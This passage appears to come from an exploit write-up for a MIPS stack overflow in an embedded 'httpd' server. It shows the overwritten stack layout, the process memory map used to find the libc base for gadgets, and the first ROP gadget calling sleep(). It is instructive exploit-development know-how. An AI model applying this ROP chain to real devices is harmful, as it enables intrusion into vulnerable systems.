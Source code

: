 ```
 ---- increasing addresses ---->

[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][   ?????   ]
                                                |
  sp points here after the oveflow  ------------'
```

## Ropchain

```
process 5886
cmdline = 'httpd'
cwd = '/tl-rootfs/tmp'
exe = '/tl-rootfs/usr/bin/httpd'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
          0x400000   0x561000   0x161000          0      /tl-rootfs/usr/bin/httpd
          0x571000   0x590000    0x1f000   0x161000      /tl-rootfs/usr/bin/httpd
          0x590000   0x66e000    0xde000          0           [heap]
        0x2aaa8000 0x2aaad000     0x5000          0      /tl-rootfs/lib/ld-uClibc.so.0
        0x2aaad000 0x2aaae000     0x1000          0        
        0x2aaae000 0x2aab2000     0x4000          0           /SYSV0000002f (deleted)
        0x2aabc000 0x2aabd000     0x1000     0x4000      /tl-rootfs/lib/ld-uClibc.so.0
        0x2aabd000 0x2aabe000     0x1000     0x5000      /tl-rootfs/lib/ld-uClibc.so.0
        0x2aabe000 0x2aabf000     0x1000          0      /tl-rootfs/hook-mips.so
        0x2aabf000 0x2aace000     0xf000          0        
        0x2aace000 0x2aacf000     0x1000          0      /tl-rootfs/hook-mips.so
        0x2aacf000 0x2aadc000     0xd000          0      /tl-rootfs/lib/libpthread.so.0
        0x2aadc000 0x2aaeb000     0xf000          0        
        0x2aaeb000 0x2aaec000     0x1000     0xc000      /tl-rootfs/lib/libpthread.so.0
        0x2aaec000 0x2aaf1000     0x5000     0xd000      /tl-rootfs/lib/libpthread.so.0
        0x2aaf1000 0x2aaf3000     0x2000          0        
        0x2aaf3000 0x2ab50000    0x5d000          0      /tl-rootfs/lib/libc.so.0
        0x2ab50000 0x2ab5f000     0xf000          0        
        0x2ab5f000 0x2ab60000     0x1000    0x5c000      /tl-rootfs/lib/libc.so.0
        0x2ab60000 0x2ab61000     0x1000    0x5d000      /tl-rootfs/lib/libc.so.0
```

So our base address to look for gadgets is ``0x2aaf3000``.

Now it's time to build our rop chain: first of all we start to take remedy
of cache incohorency calling ``sleep()``; to do that I use the already value
inside ``s3`` that I don't control (in this case equals to 5) so set the argument
for a future function call.

```
0x2ab36ce0: ~ $a0=5, jmp $s1
 move $t9, $s1 ;
 jalr $t9 ;
 move $a0, $s3
```
